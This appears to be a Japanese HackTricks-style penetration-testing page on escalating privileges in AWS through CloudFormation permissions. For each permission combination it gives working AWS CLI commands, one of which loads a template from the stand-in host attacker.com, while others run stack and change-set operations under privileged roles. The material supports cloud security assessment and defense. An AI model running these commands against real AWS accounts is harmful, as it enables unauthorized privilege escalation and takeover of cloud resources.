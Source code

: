 # AWS - Cloudformation Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## cloudformation

cloudformationに関する詳細情報は、以下を確認してください:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### `iam:PassRole`, `cloudformation:CreateStack`

これらの権限を持つ攻撃者は、**指定されたロールの権限の下でアクションを実行するために、サーバーにホストされたカスタムテンプレートを使用して** **CloudFormationスタック**を作成することで**権限を昇格させる**ことができます:
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
以下のページには、追加の権限 **`cloudformation:DescribeStacks`** を持つ **エクスプロイトの例**があります：

{{#ref}}
iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md
{{#endref}}

**潜在的な影響:** 指定されたcloudformationサービスロールへの権限昇格。

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

この場合、**既存のcloudformationスタックを悪用**して更新し、前のシナリオのように権限を昇格させることができます：
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 権限を使用して、**自分に `UpdateStack` 権限を与え**、攻撃を実行できます。

**潜在的な影響:** 指定された cloudformation サービスロールへの権限昇格。

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

この権限を持っているが **`iam:PassRole` がない場合**でも、**使用されているスタックを更新**し、**既に添付されている IAM ロールを悪用**することができます。前のセクションでのエクスプロイトの例を確認してください（更新時にロールを指定しないでください）。

`cloudformation:SetStackPolicy` 権限を使用して、**自分に `UpdateStack` 権限を与え**、攻撃を実行できます。

**潜在的な影響:** 既に添付されている cloudformation サービスロールへの権限昇格。

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

ロールを**渡す権限**と**ChangeSet を作成および実行する権限**を持つ攻撃者は、**新しい cloudformation スタックを作成/更新し、cloudformation サービスロールを悪用**することができます。これは CreateStack または UpdateStack と同様です。

以下のエクスプロイトは、**ChangeSet 権限を使用してスタックを作成する**[ **CreateStack のバリエーション**](./#iam-passrole-cloudformation-createstack)です。
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 権限を使用して、スタックに対して **自分に `ChangeSet` 権限を与える** ことができ、攻撃を実行できます。

**潜在的な影響:** cloudformation サービスロールへの権限昇格。

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

これは前の方法と似ていますが、**IAM ロール**を渡すことなく、すでにアタッチされているロールを **悪用する** ことができます。パラメータを変更するだけです:
```
--change-set-type UPDATE
```
**潜在的な影響:** すでにアタッチされているcloudformationサービスロールへの権限昇格。

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

攻撃者はこれらの権限を悪用して、任意のcloudformationロールを悪用するためにStackSetsを作成/更新することができます。

**潜在的な影響:** cloudformationサービスロールへの権限昇格。

### `cloudformation:UpdateStackSet`

攻撃者はpassRole権限なしでこの権限を悪用して、アタッチされたcloudformationロールを悪用するためにStackSetsを更新することができます。

**潜在的な影響:** アタッチされたcloudformationロールへの権限昇格。

## 参考文献

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{{#include ../../../../banners/hacktricks-training.md}}
